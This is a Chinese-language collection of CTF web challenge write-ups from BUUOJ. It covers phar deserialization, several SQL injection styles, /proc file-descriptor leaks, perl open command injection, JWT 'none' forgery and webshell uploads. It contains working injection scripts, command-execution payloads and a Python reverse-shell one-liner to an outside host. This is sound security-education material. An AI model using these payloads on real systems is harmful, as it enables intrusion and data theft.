$phar->stopBuffering();
?>
```

生成 phar 文件后改后缀为 jpg 上传, 然后在 download.php 里指定 `filename=phar://./phar.jpg` 触发反序列化

结果读取失败了... 试了 flag 文件也不行, 原因是这一条代码

```php
ini_set("open_basedir", getcwd() . ":/etc:/tmp");
```

open_basedir 能够绕过的基础是代码执行, 但这里只有 `file_get_contents` 能用, 绕不过去

于是又看了一会, 发现还有删除的操作



delete.php

```php
<?php
session_start();
if (!isset($_SESSION['login'])) {
    header("Location: login.php");
    die();
}

if (!isset($_POST['filename'])) {
    die();
}

include "class.php";

chdir($_SESSION['sandbox']);
$file = new File();
$filename = (string) $_POST['filename'];
if (strlen($filename) < 40 && $file->open($filename)) {
    $file->detele();
    Header("Content-type: application/json");
    $response = array("success" => true, "error" => "");
    echo json_encode($response);
} else {
    Header("Content-type: application/json");
    $response = array("success" => false, "error" => "File not exist");
    echo json_encode($response);
}
?>
```

这次里面没有 open_basedir 的限制, 而且跟 download.php 一样调用了 `$file->open($filename)`

最终从这个地方触发反序列化


## [RCTF2015]EasySQL

15 年的题... 


先注册一个用户, 这里用双引号, 之前用单引号的时候不能报错 (后面看到官方 wp 里写到注册 `aaa\` 用户, 也是一种检测方法)


下面的几个链接测试后发现没有注入...

看看个人中心


修改密码


有注入, 测试后发现 and * 和空格都被过滤了, 可以用括号绕过

最终构造的 payload 如下

```
1"&&(updatexml(1,concat(0x7e,(select(user())),0x7e),1))#
```


后面就是常规的查表查字段

查数据的时候发现程序过滤了 substr substring mid left right 这些字符串截取的函数, 而且 updatexml 存在最大 32 位的长度限制

一种思路是写脚本盲注

另一种思路是利用 replace 替换掉之前已经查出的内容, 这样再查询返回的结果就是 32 位以后的内容了

因为一直重复 register login changepwd 的操作比较麻烦, 就写了个脚本

```python
import requests

session = requests.session()

def register(sql):
    url = 'http://f3418ca6-ca1d-4c29-9a4b-f268e01a9fea.node4.buuoj.cn:81/register.php'
    data = {
    'username': sql,
    'password': '1',
    'email': '1'
    }
    _ = session.post(url,data=data)

def login(sql):
    url = 'http://f3418ca6-ca1d-4c29-9a4b-f268e01a9fea.node4.buuoj.cn:81/login.php'
    data = {
    'username': sql,
    'password': '1'
    }
    _ = session.post(url,data=data)
def changepwd():
    url = 'http://f3418ca6-ca1d-4c29-9a4b-f268e01a9fea.node4.buuoj.cn:81/changepwd.php'
    data = {
    'oldpass': '1',
    'newpass': '1'
    }
    res = session.post(url,data=data)
    print(res.text.replace('<form action="" method="post"><p>oldpass: <input type="text" name="oldpass" /></p><p>newpass: <input type="text" name="newpass" /></p><input type="submit" value="Submit" /></form>',''))

sql = '''1"&&updatexml(1,concat(0x7e,(select(group_concat(real_flag_1s_here))from(users)where(real_flag_1s_here)regexp('flag')),0x7e),1)#'''
#sql = '''1"&&updatexml(1,concat(0x7e,(select(replace((select(group_concat(real_flag_1s_here))from(users)where(real_flag_1s_here)regexp('flag')),'flag{fc0fbd0f-1d9b-48ef-9fbb-5d',''))),0x7e),1)#'''
register(sql)
login(sql)
changepwd()
```

这里说一下 payload

```
1"&&updatexml(1,concat(0x7e,(select(group_concat(real_flag_1s_here))from(users)where(real_flag_1s_here)regexp('flag')),0x7e),1)#
```

直接查询 `real_flag_1s_here` 的内容会返回一堆无关数据, 而且 like rlike 这些会被过滤, 但好在 regexp 没有被过滤

然后写的时候注意括号不要闭合错了

最后运行脚本得到 flag


## [CISCN2019 华北赛区 Day1 Web5]CyberPunk(代码审计，二次注入)


右键源代码


猜测是文件包含


把 php 都下载下来


index.php

```php
<?php

ini_set('open_basedir', '/var/www/html/');

// $file = $_GET["file"];
$file = (isset($_GET['file']) ? $_GET['file'] : null);
if (isset($file)){
    if (preg_match("/phar|zip|bzip2|zlib|data|input|%00/i",$file)) {
        echo('no way!');
        exit;
    }
    @include($file);
}
?>
```

设置了 open_basedir, 只有 include 可控的话无法绕过...

网站本身有很多订单操作的逻辑, 猜测可能是通过注入的方式得到 flag

confirm.php

```python
<?php

require_once "config.php";
//var_dump($_POST);

if(!empty($_POST["user_name"]) && !empty($_POST["address"]) && !empty($_POST["phone"]))
{
    $msg = '';
    $pattern = '/select|insert|update|delete|and|or|join|like|regexp|where|union|into|load_file|outfile/i';
    $user_name = $_POST["user_name"];
    $address = $_POST["address"];
    $phone = $_POST["phone"];
    if (preg_match($pattern,$user_name) || preg_match($pattern,$phone)){
        $msg = 'no sql inject!';
    }else{
        $sql = "select * from `user` where `user_name`='{$user_name}' and `phone`='{$phone}'";
        $fetch = $db->query($sql);
    }

    if($fetch->num_rows>0) {
        $msg = $user_name."已提交订单";
    }else{
        $sql = "insert into `user` ( `user_name`, `address`, `phone`) values( ?, ?, ?)";
        $re = $db->prepare($sql);
        $re->bind_param("sss", $user_name, $address, $phone);
        $re = $re->execute();
        if(!$re) {
            echo 'error';
            print_r($db->error);
            exit;
        }
        $msg = "订单提交成功";
    }
} else {
    $msg = "信息不全";
}
?>
```

pattern 几乎把能过滤的都给过滤的, 试了下堆叠注入发现执行失败

这里 user_name phone 怎么传都显示不了 `no sql inject!`, 只有 `未找到订单`

但这个查询的地方确实也是有 sql 注入的...


然后看到 change.php 里有一处直接拼接的 sql 语句

```php
<?php

require_once "config.php";

if(!empty($_POST["user_name"]) && !empty($_POST["address"]) && !empty($_POST["phone"]))
{
    $msg = '';
    $pattern = '/select|insert|update|delete|and|or|join|like|regexp|where|union|into|load_file|outfile/i';
    $user_name = $_POST["user_name"];
    $address = addslashes($_POST["address"]);
    $phone = $_POST["phone"];
    if (preg_match($pattern,$user_name) || preg_match($pattern,$phone)){
        $msg = 'no sql inject!';
    }else{
        $sql = "select * from `user` where `user_name`='{$user_name}' and `phone`='{$phone}'";
        $fetch = $db->query($sql);
    }

    if (isset($fetch) && $fetch->num_rows>0){
        $row = $fetch->fetch_assoc();
        $sql = "update `user` set `address`='".$address."', `old_address`='".$row['address']."' where `user_id`=".$row['user_id'];
        $result = $db->query($sql);
        if(!$result) {
            echo 'error';
            print_r($db->error);
            exit;
        }
        $msg = "订单修改成功";
    } else {
        $msg = "未找到订单!";
    }
}else {
    $msg = "信息不全";
}
?>
```

更新订单信息的那条 update 语句, 直接把上次查询的 `$row['address']` 给拼接到语句里面

新的 `$address` 虽然也是拼接, 但是有 addslashes 包着

回到 confirm.php 里看发现传入的 `$_POST['address']` 没有任何过滤

所以这题思路应该就是二次注入, 注入点就是 address

跟上一题类似, 直接写脚本

```python
import requests
import random

rand_list = list()

def confirm(sql):
    rand = str(random.random())
    rand_list.append(rand)
    data = {
    'user_name': rand,
    'phone': rand,
    'address': sql
    }
    requests.post('http://1768f18c-e009-4c7d-b565-c432aa2d7d3a.node4.buuoj.cn:81/confirm.php',data=data)

def change():
    rand = rand_list.pop()
    data = {
    'user_name': rand,
    'phone': rand,
    'address': '123'
    }
    res = requests.post('http://1768f18c-e009-4c7d-b565-c432aa2d7d3a.node4.buuoj.cn:81/change.php',data=data)
    print(res.text)

payload = 'select replace((select load_file("/flag.txt")),"","")'

sql = "' and updatexml(1,concat(0x7e,(" + payload + "),0x7e),1) #"

confirm(sql)
change()
```

update 这里确实能报错, 但是 updatexml 后面需要加注释

root 权限直接读 flag.txt, 绕过长度限制的思路跟上一题一样都是用 replace


## [WUSTCTF2020]CV Maker（文件上传）

简单文件上传

先注册再登录, 然后上传头像, 后缀改成 php 就行

## [网鼎杯 2020 白虎组]PicDown（文件包含，/proc/cmdline  /proc/fd）

存在文件包含


其实是非预期了... 题目环境有点问题

真正的做法是利用 proc 中的 cmdline 和 fd

参考文章 [https://www.anquanke.com/post/id/241148](https://www.anquanke.com/post/id/241148)

大致总结一下

```
/proc/self/cmdline 启动当前进程的完整命令
/proc/self/cwd/ 指向当前进程的运行目录
/proc/self/exe 指向启动当前进程的可执行文件
/proc/self/environ 当前进程的环境变量列表
/proc/self/fd/ 当前进程已打开文件的文件描述符
```

首先通过 cmdline 读取执行的命令


这里感觉应该也能够通过 app.py main.py web.py site.py 等关键词来猜测运行的脚本名

读取 app.py


```python
from flask import Flask, Response
from flask import render_template
from flask import request
import os
import urllib

app = Flask(__name__)

SECRET_FILE = "/tmp/secret.txt"
f = open(SECRET_FILE)
SECRET_KEY = f.read().strip()
os.remove(SECRET_FILE)


@app.route('/')
def index():
    return render_template('search.html')


@app.route('/page')
def page():
    url = request.args.get("url")
    try:
        if not url.lower().startswith("file"):
            res = urllib.urlopen(url)
            value = res.read()
            response = Response(value, mimetype='application/octet-stream')
            response.headers['Content-Disposition'] = 'attachment; filename=beautiful.jpg'
            return response
        else:
            value = "HACK ERROR!"
    except:
        value = "SOMETHING WRONG!"
    return render_template('search.html', res=value)


@app.route('/no_one_know_the_manager')
def manager():
    key = request.args.get("key")
    print(SECRET_KEY)
    if key == SECRET_KEY:
        shell = request.args.get("shell")
        os.system(shell)
        res = "ok"
    else:
        res = "Wrong Key!"

    return res


if __name__ == '__main__':
    app.run(host='0.0.0.0', port=8080)
```

`/no_one_know_the_manager` 路由中可以通过 os.system 无回显执行命令, 但是要验证 secret key

secret key 在 /tmp/secret.txt 里面, 并且读取之后利用 os.remove 删除了文件

```python
SECRET_FILE = "/tmp/secret.txt"
f = open(SECRET_FILE)
SECRET_KEY = f.read().strip()
os.remove(SECRET_FILE)
```

注意程序使用 open 来读取文件, 但是在删除之后并没有执行 close 方法

根据上面的参考文章可知 secret.txt 的文件描述符依然存在于 /proc/self/fd 中, 于是我们通过该目录来获取文件内容


id 试到 3 时出来了一串字符, 猜测为 secret key


最后反弹 shell

```python
python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("x.x.x.x",yyyy));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("sh")'
```


## [CISCN2019 总决赛 Day2 Web1]Easyweb(addslashes双重转义导致sql注入)


robots.txt


根据右键源代码得知有 user.php image.php index.php 三个文件

试到 image.php.bak 时发现能下载

```php
<?php
include "config.php";

$id=isset($_GET["id"])?$_GET["id"]:"1";
$path=isset($_GET["path"])?$_GET["path"]:"";

$id=addslashes($id);
$path=addslashes($path);

$id=str_replace(array("\\0","%00","\\'","'"),"",$id);
$path=str_replace(array("\\0","%00","\\'","'"),"",$path);

$result=mysqli_query($con,"select * from images where id='{$id}' or path='{$path}'");
$row=mysqli_fetch_array($result,MYSQLI_ASSOC);

$path="./" . $row["path"];
header("Content-Type: image/jpeg");
readfile($path);
```

登录的地方没发现 sql 注入, 也没有弱口令, 问题只能出在 image.php 上

两次 str_replace 过滤单双引号等字符, 其中过滤的 `\0` 感觉不太对劲

本地试了下, 如果输入 `\0`, 被 addslashes 转义之后就是 `\\0`, 之后被 replace 成 `\`, 这样就可以使得后面跟着的单引号逃逸出来


程序后面的 readfile 是依据 `$row["path"]` 来读取文件的, 于是尝试用 union 构造数据

```
id=123\0&path=+union+select+1,0x757365722e706870+#
```

读取 user.php


读取 config.php 和 ../../../../flag 都不行, 看了下网站上的 image.php 发现被过滤了


那么只有 sql 注入一条路了

简单盲注无任何过滤, 脚本如下

```python
import requests
import time

url = 'http://03e9b380-2c82-4b43-b760-4157d9a13c20.node4.buuoj.cn:81/image.php'

dicts = r'{}_,AaBbCcDdEeFfGgHhIiJjKkLlMmNnOoPpQqRrSsTtUuVvWwXxYyZz0123456789'

flag = ''

for i in range(1,99999):
    for s in dicts:
        time.sleep(0.2)
        params = {
        'id': '1\\0',
        'path': 'and if(ascii(substr((select group_concat(username,0x2c,password) from users),{},1))={},1,0) #'.format(i,ord(s))
        }
        print(s)
        res = requests.get(url, params=params)
        if len(res.text) >100:
            flag += s
            print('FOUND!!!',flag)
            break
```

md5 解不出来, 回过头看 index.php 的时候发现对传入 password 压根就没有 md5 加密...

于是拿着 md5 直接登录


有一处上传, 配合 sql 注入去读取 upload.php

正则明明过滤了却还能读到, 很奇怪...


上传时把 filename 改成 php 代码


访问 log 文件


## [HITCON 2017]SSRFme

```php
<?php
if (isset($_SERVER['HTTP_X_FORWARDED_FOR'])) {
    $http_x_headers = explode(',', $_SERVER['HTTP_X_FORWARDED_FOR']);
    $_SERVER['REMOTE_ADDR'] = $http_x_headers[0];
}

echo $_SERVER["REMOTE_ADDR"];

$sandbox = "sandbox/" . md5("orange" . $_SERVER["REMOTE_ADDR"]);
@mkdir($sandbox);
@chdir($sandbox);

$data = shell_exec("GET " . escapeshellarg($_GET["url"]));
$info = pathinfo($_GET["filename"]);
$dir  = str_replace(".", "", basename($info["dirname"]));
@mkdir($dir);
@chdir($dir);
@file_put_contents(basename($info["basename"]), $data);
highlight_file(__FILE__);
```

题目名称是 ssrf, 但是这里存在 `file_put_contents`, filename 也没有过滤

vps 挂着 php 代码, 然后通过 GET 命令下载到网站上另存为 a.php


执行根目录下的 readflag 得到 flag


然后看 wp 的时候发现自己又非预期了...

正确的思路是利用 perl open 函数的命令执行漏洞来 getshell

参考文章 [https://lorexxar.cn/2017/11/10/hitcon2017-writeup/#ssrfme](https://lorexxar.cn/2017/11/10/hitcon2017-writeup/#ssrfme)

代码很简单，调用命令`GET`来执行从url获取的参数， 然后按照filename新建文件，写入GET的结果。

这里最关键的一点就是GET的命令执行漏洞，在说GET之前，首先需要知道perl的open可以执行命令。

我不知道关于这个问题最早是什么时候爆出的了，但确实已经很多年了。

https://news.ycombinator.com/item?id=3943116

```
root@iZ285ei82c1Z:~/test# cat a.pl 
open(FD, "|id");
print <FD>;
root@iZ285ei82c1Z:~/test# perl a.pl 
uid=0(root) gid=0(root) groups=0(root)
```

而perl里的GET函数底层就是调用了open处理

```
file.pm
84: opendir(D, $path) or
132:    open(F, $path) or return new
```

open函数本身还支持file协议

```
root@iZ285ei82c1Z:~/test# cat /usr/share/perl5/LWP.pm

...
=head2 File Request

The library supports GET and HEAD methods for file requests.  The
"If-Modified-Since" header is supported.  All other headers are
ignored.  The I<host> component of the file URL must be empty or set
to "localhost".  Any other I<host> value will be treated as an error.

Directories are always converted to an HTML document.  For normal
files, the "Content-Type" and "Content-Encoding" in the response are
guessed based on the file suffix.

Example:

  $req = HTTP::Request->new(GET => 'file:/etc/passwd');
...
```

综合看起来像是一个把文件名拼接入命令导致的命令执行。

我们可以测试一下

```
root@iZ285ei82c1Z:~/test# GET 'file:id|'
uid=0(root) gid=0(root) groups=0(root)
```

成功执行命令了，那么思路就清楚了，我们通过传入命令文件名和命令来
执行。

payload来自rr的博客

```
http://13.115.136.15/?url=file:bash%20-c%20/readflag|&filename=bash%20-c%20/readflag|
http://13.115.136.15/?url=file:bash%20-c%20/readflag|&filename=bash%20-c%20/readflag|
http://13.115.136.15/sandbox/c36eb1c4372f5f8131542751d486cebd/bash%20-c%20/readflag%7C
```

## [watevrCTF-2019]Cookie Store(改cookie)


session 的值是 base64


改完 money 后重新编码一次, 然后购买 flag


flag 在 cookie 里


## [红明谷CTF 2021]write_shell

```php
<?php
error_reporting(0);
highlight_file(__FILE__);
function check($input){
    if(preg_match("/'| |_|php|;|~|\\^|\\+|eval|{|}/i",$input)){
        // if(preg_match("/'| |_|=|php/",$input)){
        die('hacker!!!');
    }else{
        return $input;
    }
}

function waf($input){
  if(is_array($input)){
      foreach($input as $key=>$output){
          $input[$key] = waf($output);
      }
  }else{
      $input = check($input);
  }
}

$dir = 'sandbox/' . md5($_SERVER['REMOTE_ADDR']) . '/';
if(!file_exists($dir)){
    mkdir($dir);
}
switch($_GET["action"] ?? "") {
    case 'pwd':
        echo $dir;
        break;
    case 'upload':
        $data = $_GET["data"] ?? "";
        waf($data);
        file_put_contents("$dir" . "index.php", $data);
}
?>
```

简单代码执行, payload 如下

```
http://72a9085b-f56b-4fb4-b464-5c88c8f806af.node4.buuoj.cn:81/?action=upload&data=<?=`ls\$IFS\$9/`?>
```


查看 flag

```
http://72a9085b-f56b-4fb4-b464-5c88c8f806af.node4.buuoj.cn:81/?action=upload&data=<?=`cat</flllllll1112222222lag`?>
```

## [b01lers2020]Welcome to Earth

跟着源代码一直走

```javascript
// Run to scramble original flag
//console.log(scramble(flag, action));
function scramble(flag, key) {
  for (var i = 0; i < key.length; i++) {
    let n = key.charCodeAt(i) % flag.length;
    let temp = flag[i];
    flag[i] = flag[n];
    flag[n] = temp;
  }
  return flag;
}

function check_action() {
  var action = document.getElementById("action").value;
  var flag = ["{hey", "_boy", "aaaa", "s_im", "ck!}", "_baa", "aaaa", "pctf"];

  // TODO: unscramble function
}
```

随便拼接一下

```
pctf{hey_boys_im_baaaaaaaaaack!}
```

## [HFCTF2020]EasyLogin(js弱类型比较，jwt伪造)


右键查看源代码, 发现 app.js

```javascript
/**
 *  或许该用 koa-static 来处理静态文件
 *  路径该怎么配置？不管了先填个根目录XD
 */

function login() {
    const username = $("#username").val();
    const password = $("#password").val();
    const token = sessionStorage.getItem("token");
    $.post("/api/login", {username, password, authorization:token})
        .done(function(data) {
            const {status} = data;
            if(status) {
                document.location = "/home";
            }
        })
        .fail(function(xhr, textStatus, errorThrown) {
            alert(xhr.responseJSON.message);
        });
}

function register() {
    const username = $("#username").val();
    const password = $("#password").val();
    $.post("/api/register", {username, password})
        .done(function(data) {
            const { token } = data;
            sessionStorage.setItem('token', token);
            document.location = "/login";
        })
        .fail(function(xhr, textStatus, errorThrown) {
            alert(xhr.responseJSON.message);
        });
}

function logout() {
    $.get('/api/logout').done(function(data) {
        const {status} = data;
        if(status) {
            document.location = '/login';
        }
    });
}

function getflag() {
    $.get('/api/flag').done(function(data) {
        const {flag} = data;
        $("#username").val(flag);
    }).fail(function(xhr, textStatus, errorThrown) {
        alert(xhr.responseJSON.message);
    });
}
```

感觉注释不太对劲, 猜测可能会有源码泄露

搜了一下发现 koa 是基于 nodejs 的 web 框架, 目录结构如下


访问 app.js

```javascript
const Koa = require('koa');
const bodyParser = require('koa-bodyparser');
const session = require('koa-session');
const static = require('koa-static');
const views = require('koa-views');

const crypto = require('crypto');
const { resolve } = require('path');

const rest = require('./rest');
const controller = require('./controller');

const PORT = 3000;
const app = new Koa();

app.keys = [crypto.randomBytes(16).toString('hex')];
global.secrets = [];

app.use(static(resolve(__dirname, '.')));

app.use(views(resolve(__dirname, './views'), {
  extension: 'pug'
}));

app.use(session({key: 'sses:aok', maxAge: 86400000}, app));

// parse request body:
app.use(bodyParser());

// prepare restful service
app.use(rest.restify());

// add controllers:
app.use(controller());

app.listen(PORT);
console.log(`app started at port ${PORT}...`);
```

/controllers/api.js

```javascript
const crypto = require('crypto');
const fs = require('fs')
const jwt = require('jsonwebtoken')

const APIError = require('../rest').APIError;

module.exports = {
    'POST /api/register': async (ctx, next) => {
        const {username, password} = ctx.request.body;

        if(!username || username === 'admin'){
            throw new APIError('register error', 'wrong username');
        }

        if(global.secrets.length > 100000) {
            global.secrets = [];
        }

        const secret = crypto.randomBytes(18).toString('hex');
        const secretid = global.secrets.length;
        global.secrets.push(secret)

        const token = jwt.sign({secretid, username, password}, secret, {algorithm: 'HS256'});

        ctx.rest({
            token: token
        });

        await next();
    },

    'POST /api/login': async (ctx, next) => {
        const {username, password} = ctx.request.body;

        if(!username || !password) {
            throw new APIError('login error', 'username or password is necessary');
        }

        const token = ctx.header.authorization || ctx.request.body.authorization || ctx.request.query.authorization;

        const sid = JSON.parse(Buffer.from(token.split('.')[1], 'base64').toString()).secretid;

        console.log(sid)

        if(sid === undefined || sid === null || !(sid < global.secrets.length && sid >= 0)) {
            throw new APIError('login error', 'no such secret id');
        }

        const secret = global.secrets[sid];

        const user = jwt.verify(token, secret, {algorithm: 'HS256'});

        const status = username === user.username && password === user.password;

        if(status) {
            ctx.session.username = username;
        }

        ctx.rest({
            status
        });

        await next();
    },

    'GET /api/flag': async (ctx, next) => {
        if(ctx.session.username !== 'admin'){
            throw new APIError('permission error', 'permission denied');
        }

        const flag = fs.readFileSync('/flag').toString();
        ctx.rest({
            flag
        });

        await next();
    },

    'GET /api/logout': async (ctx, next) => {
        ctx.session.username = null;
        ctx.rest({
            status: true
        })
        await next();
    }
};
```

估计是考察 jwt 安全, 首先试试看把加密算法设置为空能不能成功 

先注册一个用户让 secretid 填充到 global.secrets 数组内, 方便后续绕过

然后在 sessionStorage 中查看 token


注意一下 `if(sid === undefined || sid === null || !(sid < global.secrets.length && sid >= 0))` 的绕过

javascript 也是一种弱类型语言, 不同类型进行比较时也会有类型转换


这里用 0e123 来绕过, 其实用空数组也可以

最后构造 payload

```python
import time
import jwt

info = {'iat': int(time.time()),
    "secretid": "0e123",
    "username": "admin",
    "password": "admin"}

token = jwt.encode(info,key="",algorithm="none")

print(token)
```

```
eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.eyJpYXQiOjE2NjYxNjQ3MzcsInNlY3JldGlkIjoiMGUxMjMiLCJ1c2VybmFtZSI6ImFkbWluIiwicGFzc3dvcmQiOiJhZG1pbiJ9.
```

登录, 比较顺利


查看 flag


## [GYCTF2020]Ezsqli（无列名注入，ascii比较盲注）

sql 注入, 过滤了 and or case when if time benchmark 等等

不过注入点是整数型的, 可以直接在 id 处放表达式

本地测试如下

```bash
mysql> select * from users where id=(length(user())=0);
Empty set (0.00 sec)

mysql> select * from users where id=(length(user())<0);
Empty set (0.00 sec)

mysql> select * from users where id=(length(user())>0);
+----+----------+----------+
| id | username | password |
+----+----------+----------+
|  1 | Dumb     | Dumb     |
+----+----------+----------+
1 row in set (0.00 sec)
```


information_schema 被过滤了, 因为含有 or

恰好 mysql 版本为 5.7, 于是利用 sys 库中的表来跑表名

```sql
(ascii(substr((select group_concat(table_name) from sys.schema_table_statistics_with_buffer where table_schema=database()),1,1))='f')
```

列名跑不了, 尝试无列名注入, 这里用 ascii 比较盲注

基本形式如下, 列数是手工试出来的

```sql
((select 1,'f')>(select * from f1ag_1s_h3r3_hhhhh))
```

当然这个 payload 目前还有点问题, 比如不能区分大小写 (binary 含有 in 被过滤了)

(绕过 binary 过滤来区分大小写的参考文章 [https://nosec.org/home/detail/3830.html](https://nosec.org/home/detail/3830.html))

不过对于本题读取 flag 来说是不影响的

```python
import requests
import time

url = 'http://51adf432-9f40-474e-bd18-cfb31b37f4c3.node4.buuoj.cn:81/index.php'

#dicts = r'{}_,.-0123456789AaBbCcDdEeFfGgHhIiJjKkLlMmNnOoPpQqRrSsTtUuVvWwXxYyZz'
dicts = r'-0123456789abcdefgl{}'

flag = ''

for i in range(1,99999):
    for s in dicts:
        time.sleep(0.2)
        #payload = '(ascii(substr((select group_concat(table_name) from sys.schema_table_statistics_with_buffer where table_schema=database()),{},1))={})'.format(i, ord(s))
        payload = "((select 1,'{}')>(select * from f1ag_1s_h3r3_hhhhh))".format(flag + s)
        print(s)
        res = requests.post(url,data={'id':payload})
        if 'Nu1L' in res.text:
            flag += dicts[dicts.index(s) -1]
            print('FOUND!!!',flag)
            break
```

注意 dicts 中的字符要按 ascii 顺序排列

## [网鼎杯 2018]Comment

题目思路很新奇, 最后是看了 wp 才完整的做出来的...


/js/panel.js


暗示有 git 仓库, 并且文件在暂存区, 也就是 add 了但是没有 commit

留言板需要登陆


这里看到默认已经填了一个用户 `zhangwei/zhangwei***`, `***` 感觉可能是数字

于是用 burp intruder 爆破, 结果是 `zhangwei/zhangwei666`

githacker 获取 git 仓库


write_do.php

```php
<?php
include "mysql.php";
session_start();
if($_SESSION['login'] != 'yes'){
    header("Location: ./login.php");
    die();
}
if(isset($_GET['do'])){
switch ($_GET['do'])
{
case 'write':
    break;
case 'comment':
    break;
default:
    header("Location: ./index.php");
}
}
else{
    header("Location: ./index.php");
}
?>
```

文件内容不全, 于是用 `git log --reflog` 查看改动记录


文件被暂存到 stash 了, 用 `git stash pop` 恢复工作区


完整内容如下

```php
<?php
include "mysql.php";
session_start();
if($_SESSION['login'] != 'yes'){
    header("Location: ./login.php");
    die();
}
if(isset($_GET['do'])){
switch ($_GET['do'])
{
case 'write':
    $category = addslashes($_POST['category']);
    $title = addslashes($_POST['title']);
    $content = addslashes($_POST['content']);
    $sql = "insert into board
            set category = '$category',
                title = '$title',
                content = '$content'";
    $result = mysql_query($sql);
    header("Location: ./index.php");
    break;
case 'comment':
    $bo_id = addslashes($_POST['bo_id']);
    $sql = "select category from board where id='$bo_id'";
    $result = mysql_query($sql);
    $num = mysql_num_rows($result);
    if($num>0){
    $category = mysql_fetch_array($result)['category'];
    $content = addslashes($_POST['content']);
    $sql = "insert into comment
            set category = '$category',
                content = '$content',
                bo_id = '$bo_id'";
    $result = mysql_query($sql);
    }
    header("Location: ./comment.php?id=$bo_id");
    break;
default:
    header("Location: ./index.php");
}
}
else{
    header("Location: ./index.php");
}
?>
```

case 为 write 时, post 提交的内容都经过了 addslashes, 但是 comment 的时候却直接从数据库中取出 category 的内容拼接到 sql 语句中, 因此 category 这里存在二次注入

这里比较坑的点在于 comment 时的 sql

```php
$sql = "insert into comment
        set category = '$category',
            content = '$content',
            bo_id = '$bo_id'";
```

因为是多行, 所以注释要用 `/**/`, 而且单行注释仅能注释该行后面的内容, 对于下一行是没有影响的


write 时构造 payload

```sql
category=1',content=(select user()),/*
```

comment 时构造 payload

```sql
content=*/#
```




然后组合成 python 脚本

```python
import requests
import re

cookies = {
    'PHPSESSID': 'rd6h57gjrcu2pi6ujp1k4g7uc6'
}

def post(sql):
    data = {
    'title': '123',
    'category': "1',content=(" + sql + "), /*",
    'content': '123'
    }
    _ = requests.post('http://7017a807-8655-4192-856c-4a8b3638f244.node4.buuoj.cn:81/write_do.php?do=write',data=data, cookies=cookies)

def getid():
    res = requests.get('http://7017a807-8655-4192-856c-4a8b3638f244.node4.buuoj.cn:81/', cookies=cookies)
    id_list = re.findall('value=\'(.*)\'', res.text)
    return id_list[-1]


def comment(bo_id):
    data = {
    'content': '*/#',
    'bo_id': bo_id
    }
    _ = requests.post('http://7017a807-8655-4192-856c-4a8b3638f244.node4.buuoj.cn:81/write_do.php?do=comment',data=data, cookies=cookies)
    res = requests.get('http://7017a807-8655-4192-856c-4a8b3638f244.node4.buuoj.cn:81/comment.php?id=' + bo_id, cookies=cookies)
    res.encoding = "utf-8"
    print(re.findall(r'留言<\/label><div class="col-sm-5"><p>([\s\S]*)<\/p><\/div>', res.text)[0])

sql = "select concat(database(),',',version(),',',user())"
post(sql)
comment(getid())
```


读取 /etc/passwd


www 用户的 home 目录一般都是 /var/www, 而这里是 /home/www, 感觉不太对劲

尝试读取 /home/www/.bash_history


注意到 `.DS_Store`, 该文件是 macos 生成的隐藏文件, 可能会泄露当前目录的相关信息, 例如目录下所有文件的文件名

这里删除了 /var/www/html/ 下的 `.DS_Store`, 但是 /tmp/html 下的还在

首先利用 load_file + hex 读取该文件

```sql
select hex(load_file('/tmp/html/.DS_Store'))
```

然后本地再转成二进制文件

```sql
select unhex(load_file('d:/hex.txt')) into dumpfile 'd:/DS_Store'
```

最后用工具读取

 [https://github.com/gehaxelt/Python-dsstore](https://github.com/gehaxelt/Python-dsstore)


读取 `flag_8946e1ff1ee3e40f.php` 得到 flag


## [SWPUCTF 2018]SimplePHP（phar反序列化）

简单 phar 反序列化



查看文件处有文件读取

```
http://96c57946-ef6a-4e1b-8ad0-47294a76515a.node4.buuoj.cn:81/file.php?file=
```

file.php

```php
<?php 
header("content-type:text/html;charset=utf-8");  
include 'function.php'; 
include 'class.php'; 
ini_set('open_basedir','/var/www/html/'); 
$file = $_GET["file"] ? $_GET['file'] : ""; 
if(empty($file)) { 
    echo "<h2>There is no file to show!<h2/>"; 
} 
$show = new Show(); 
if(file_exists($file)) { 
    $show->source = $file; 
    $show->_show(); 
} else if (!empty($file)){ 
    die('file doesn\'t exists.'); 
} 
?> 
```

class.php

```php
<?php
class C1e4r
{
    public $test;
    public $str;
    public function __construct($name)
    {
        $this->str = $name;
    }
    public function __destruct()
    {
        $this->test = $this->str;
        echo $this->test;
    }
}

class Show
{
    public $source;
    public $str;
    public function __construct($file)
    {
        $this->source = $file;   //$this->source = phar://phar.jpg
        echo $this->source;
    }
    public function __toString()
    {
        $content = $this->str['str']->source;
        return $content;
    }
    public function __set($key,$value)
    {
        $this->$key = $value;
    }
    public function _show()
    {
        if(preg_match('/http|https|file:|gopher|dict|\.\.|f1ag/i',$this->source)) {
            die('hacker!');
        } else {
            highlight_file($this->source);
        }
        
    }
    public function __wakeup()
    {
        if(preg_match("/http|https|file:|gopher|dict|\.\./i", $this->source)) {
            echo "hacker~";
            $this->source = "index.php";
        }
    }
}
class Test
{
    public $file;
    public $params;
    public function __construct()
    {
        $this->params = array();
    }
    public function __get($key)
    {
        return $this->get($key);
    }
    public function get($key)
    {
        if(isset($this->params[$key])) {
            $value = $this->params[$key];
        } else {
            $value = "index.php";
        }
        return $this->file_get($value);
    }
    public function file_get($value)
    {
        $text = base64_encode(file_get_contents($value));
        return $text;
    }
}
?>
```

function.php

```php
<?php 
//show_source(__FILE__); 
include "base.php"; 
header("Content-type: text/html;charset=utf-8"); 
error_reporting(0); 
function upload_file_do() { 
    global $_FILES; 
    $filename = md5($_FILES["file"]["name"].$_SERVER["REMOTE_ADDR"]).".jpg"; 
    //mkdir("upload",0777); 
    if(file_exists("upload/" . $filename)) { 
        unlink($filename); 
    } 
